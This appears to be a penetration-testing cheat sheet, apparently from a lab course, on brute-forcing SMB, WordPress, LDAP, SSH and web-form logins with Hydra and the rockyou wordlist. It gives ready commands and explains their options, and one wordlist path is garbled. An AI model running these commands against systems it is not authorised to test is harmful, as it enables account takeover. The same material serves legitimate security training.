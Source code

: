 | hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                                | Hydra brute force SMB user with rockyou:                                  |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log In\&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login                                 |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f                                                                                        | SMB Brute Forcing                                                         |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f                                                                                          | LDAP Brute Forcing                                                        |

## Example of usage

### SSH

`hydra -l <username> -P <full path to pass> 10.10.44.136 -t 4 ssh`

| Option | Description                            |
| ------ | -------------------------------------- |
| `-l`   | specifies the (SSH) username for login |
| `-P`   | indicates a list of passwords          |
| `-t`   | sets the number of threads to spawn    |

For example, `hydra -l root -P` /usr/share/wordlists/rockyou.txt `10.10.44.136 -t 4 ssh` will run with the following arguments:

* Hydra will use `root` as the username for `ssh`
* It will try the passwords in the `rockyou.txt` file
* There will be four threads running in parallel as indicated by `-t 4`

If you don't know user, you can use users wordlist using flag -L wordlist\_name: `-L usr/share/wordlists.rockyou.txt/usr/share/wordlists.rockyou.txt`

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

`sudo hydra <username> <wordlist> 10.10.44.136 http-post-form "<path>:<login_credentials>:<invalid_response>"`

| Option                | Description                                                                              |
| --------------------- | ---------------------------------------------------------------------------------------- |
| `-l`                  | the username for (web form) login                                                        |
| `-P`                  | the password list to use                                                                 |
| `http-post-form`      | the type of the form is POST                                                             |
| `<path>`              | the login page URL, for example, `login.php`                                             |
| `<login_credentials>` | the username and password used to log in, for example, `username=^USER^&password=^PASS^` |
| `<invalid_response>`  | part of the response when the login fails                                                |
| `-V`                  | verbose output for every attempt                                                         |

